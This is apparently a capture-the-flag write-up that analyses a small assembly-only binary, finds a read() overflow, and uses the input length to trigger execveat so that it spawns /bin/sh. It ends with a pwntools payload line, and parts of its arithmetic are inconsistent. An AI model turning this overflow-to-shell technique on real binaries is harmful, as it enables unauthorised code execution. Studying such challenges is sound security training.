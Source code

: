 # End

There is no `end.c` for us to see, so the only thing we can do is to `objdump` the disassembly code:

    Disassembly of section .text:

    00000000004000b0 <_start>:
      4000b0:	48 31 c0             	xor    %rax,%rax
      4000b3:	48 31 db             	xor    %rbx,%rbx
      4000b6:	48 31 c9             	xor    %rcx,%rcx
      4000b9:	48 31 d2             	xor    %rdx,%rdx
      4000bc:	48 31 ff             	xor    %rdi,%rdi
      4000bf:	48 31 f6             	xor    %rsi,%rsi
      4000c2:	4d 31 c0             	xor    %r8,%r8
      4000c5:	4d 31 c9             	xor    %r9,%r9
      4000c8:	4d 31 d2             	xor    %r10,%r10
      4000cb:	4d 31 db             	xor    %r11,%r11
      4000ce:	4d 31 e4             	xor    %r12,%r12
      4000d1:	4d 31 ed             	xor    %r13,%r13
      4000d4:	4d 31 f6             	xor    %r14,%r14
      4000d7:	4d 31 ff             	xor    %r15,%r15
      4000da:	48 31 ed             	xor    %rbp,%rbp
      4000dd:	e8 10 00 00 00       	callq  4000f2 <_end>
      4000e2:	b8 3c 00 00 00       	mov    $0x3c,%eax
      4000e7:	48 31 ff             	xor    %rdi,%rdi
      4000ea:	48 31 f6             	xor    %rsi,%rsi
      4000ed:	48 31 d2             	xor    %rdx,%rdx
      4000f0:	0f 05                	syscall 

    00000000004000f2 <_end>:
      4000f2:	48 81 ec 28 01 00 00 	sub    $0x128,%rsp
      4000f9:	48 89 e6             	mov    %rsp,%rsi
      4000fc:	ba 48 01 00 00       	mov    $0x148,%edx
      400101:	0f 05                	syscall 
      400103:	48 81 c4 28 01 00 00 	add    $0x128,%rsp
      40010a:	c3                   	retq   
      
 Wow....this problem is a pure assembly code problem.
  
 Everything is `xor`ed in the beginning so, all of them are 0.
  
 After every register is zeroed, it calls `end`.
  
 What `end` does is :
  
    * rsp = rsp - 0x128
    * rsi = rsp - 0x128
    * edx = rdx = 0x148
    * sycall
 
And we can see `rax = 0` and `rdi = 0`, so `end` is a system call for `read()`.
 
    end() = read(0, rsp - 0x128, 0x148)
    
This is definitely a buffer overflow question.
 
However, what can we do? I tried a lot to overflow, such as jumping back to read again, but failed.
 
Then, when staring at `gdb-peda`, I found something interesting:
 
   rax = the length of input string
   
So, I tried to control the length to 59 to call `sys_execve` but still failed, since `/bin/sh\0` is not in rdi.
 
After that, I thought of: Maybe the input size is the key to solving this problem.
 
And.....vola! It is indeed!
 
First 0x128 + 8 = 0x130 and 0x140 is our range of overflow. Converting them into decimal, they and 304 and 336. So, let's take a look at system call table at that range.
 
   ![end](end.jpg)
   
This look really alike `execve` so maybe this is it.

After reading the `execveat manual`, I found this:

   ![end2](end2.jpg)
   
So, since what we are entering is `/bin/sh\0` , an abosulute directory, `dfd` is ignored. This means, rdi is ignored and all we have to do is put `/bin/sh\0` in rsi.

Of course, it is easy since rsi is the starting point of the user input. Therefore our payload will begin with `/bin/sh\0` then follow up with a padding of 304 - 17 = 287 bytes. 

*   NOTE: rdx must be cleared since it is a parameter for `execveat` and in case of error.
    
Seeing the note I wrote, yes, we need to zero out rdx. We can find the method at `0x400ed: xor rdx, rdx` and this will be our return address.

Finally, our payload will be:

```python
   p.sendline(b"/bin//sh\x00" + b"\x90"*287 + p64(0x4000ed) + b"\x90"*17)
```
